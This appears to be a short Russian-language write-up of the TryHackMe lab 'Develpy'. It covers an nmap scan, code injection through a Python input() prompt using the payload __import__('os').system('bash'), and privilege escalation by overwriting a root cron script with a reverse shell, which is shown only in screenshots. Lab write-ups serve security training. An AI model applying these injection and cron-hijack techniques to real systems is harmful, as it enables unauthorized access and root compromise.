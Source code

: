 # Develpy

:white_check_mark:  [**Nc connection**](#nc)

:white_check_mark: [**Python input() function**](#python)

:white_check_mark: [**Crontab file rewrite(privesc)**](#crontab)
___

## Enumeration
Сканируем ip командой:
```
nmap -vv -p 1-10000 develpy.thm
```

```
PORT      STATE SERVICE          REASON                                                                  
22/tcp    open  ssh              syn-ack ttl 63                                                          
10000/tcp open  snet-sensor-mgmt syn-ack ttl 63                                                          
                                                                                                         
Read data files from: /usr/bin/../share/nmap                                                         
```

<a name="nc"><h2>Getting shell</h2></a>

<a name="python"></a>

Взглянем на порт 10000. Попробуем подключиться по **nc**

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/1.png)

Мы имеем дело с программой на python, и для ввода используется функция "**input()**". Можем попытаться запустить системную команду.

```
__import__("os").system("bash")
```
<a name="crontab"><h2>Privilege escalation</h2></a>

Посмотрим, что находится в crontab.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/2.png)

Файл root.sh запускается с правами root. Удаляем файл root.sh и записываем в новый обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/3.png)

Немного ждем и получаем оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/4.png)
